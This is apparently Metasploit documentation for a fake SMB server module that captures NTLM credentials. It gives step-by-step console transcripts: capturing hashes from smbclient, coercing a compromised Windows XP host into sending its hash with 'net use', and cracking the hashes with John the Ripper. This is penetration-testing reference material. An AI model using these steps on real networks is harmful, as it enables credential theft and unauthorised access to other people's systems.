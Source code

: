 This module creates a mock SMBv1 server which accepts credentials before returning `NT_STATUS_LOGON_FAILURE`.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/server/capture/smb```
  3. Do: ```run```

## Options

  **CAINPWFILE**

  A file to store Cain & Abel formatted captured hashes in

  **CHALLENGE**

  An 8 byte server challenge.  Default is `1122334455667788`

  **JOHNPWFILE**

  A file to store John the Ripper formatted hashes in

## Scenarios

### Linux Connection via smbclient

Ubuntu 18.04 with `smbclient 4.7.6-Ubuntu` installed.

Based on [shellvoide.com](https://www.shellvoide.com/hacks/how-to-setup-rogue-fake-smb-server-to-capture-credentials/)

You'll need to set `client use spnego = no` under `[global]` in `smb.conf` to ensure SMBv1 compatability.

Server:

```
msf5 exploit(multi/handler) > use auxiliary/server/capture/smb
msf5 auxiliary(server/capture/smb) > set johnpwfile /tmp/john
johnpwfile => /tmp/john
msf5 auxiliary(server/capture/smb) > run
[*] Auxiliary module running as background job 0.
[*] SMB Captured - 2019-09-25 22:44:04 -0400
NTLMv2 Response Captured from 2.2.2.2:50978 - 2.2.2.2
USER:ubuntu DOMAIN:WORKGROUP OS:Unix LM:Samba
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:a6b70b49c8d42903fbe6231ce53a21ff 
NT_CLIENT_CHALLENGE:01010000000000008aee33441474d501f8f62d51f6995359000000000200120057004f0052004b00470052004f005500500000000000
[*] SMB Capture - Empty hash captured from 2.2.2.2:50978 - 2.2.2.2 captured, ignoring ... 
```

Client:

```
root@rageKali:~# grep spnego /etc/samba/smb.conf 
client use spnego = no
root@rageKali:~# smbclient //1.1.1.1/fake
Enter WORKGROUP\root's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```

Crack the Hash:

```
# cat /tmp/john_netntlmv2
ubuntu::WORKGROUP:1122334455667788:a6b70b49c8d42903fbe6231ce53a21ff:01010000000000008aee33441474d501f8f62d51f6995359000000000200120057004f0052004b00470052004f005500500000000000
# john /tmp/john_netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
test             (ubuntu)
1g 0:00:00:00 DONE (2019-09-25 22:46) 11.11g/s 1865Kp/s 1865Kc/s 1865KC/s 24782478..playpen
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed

```

### Windows XP via net use

Based off of [hackers-arise.com](https://www.hackers-arise.com/single-post/2018/11/19/Metasploit-Basics-Part-20-Creating-a-Fake-SMB-Server-to-Capture-Credentials)

The idea here is we have a shell on a Windows box where we can't `hashdump` due to user permissions.
However, we're able to do a `net use` to make an `SMB` connection back to our server to get the
user's hash, then hopefully crack it.

```
meterpreter > getuid
Server username: WINXP\test
meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use auxiliary/server/capture/smb
msf5 auxiliary(server/capture/smb) > set johnpwfile /tmp/john
johnpwfile => /tmp/john
msf5 auxiliary(server/capture/smb) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/capture/smb) > 
[*] Started service listener on 0.0.0.0:445 
[*] Server started.

msf5 auxiliary(server/capture/smb) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 892 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\test\Desktop>net use \\1.1.1.1 fake

[*] SMB Captured - 2019-09-25 22:26:04 -0400
NTLMv1 Response Captured from 2.2.2.2:1056 - 2.2.2.2
USER:test DOMAIN:WINXP OS:Windows 2002 Service Pack 2 2600 LM:Windows 2002 5.1
LMHASH:7f1a8bbdf965d969339b08f160d292692f85252cc731bb25
NTHASH:e02333eb6ac047b8d4d4f5759b1a455161d4bc576f75460c
net use \\1.1.1.1 fake
System error 1326 has occurred.

Logon failure: unknown user name or bad password.


C:\Documents and Settings\test\Desktop>
```

We're now able to use John the Ripper to crack the password.

```
# cat /tmp/john_netntlm 
test::WINXP:7f1a8bbdf965d969339b08f160d292692f85252cc731bb25:e02333eb6ac047b8d4d4f5759b1a455161d4bc576f75460c:1122334455667788
# john /tmp/john_netntlm --format=netlm  --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Using default target encoding: CP850
Loaded 1 password hash (netlm, LM C/R [DES 32/64])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
FAKE             (test)
1g 0:00:00:00 DONE (2019-09-25 22:28) 1.333g/s 1398Kp/s 1398Kc/s 1398KC/s 123456..LATISHA1
Use the "--show --format=netlm" options to display all of the cracked passwords reliably
Session completed
```
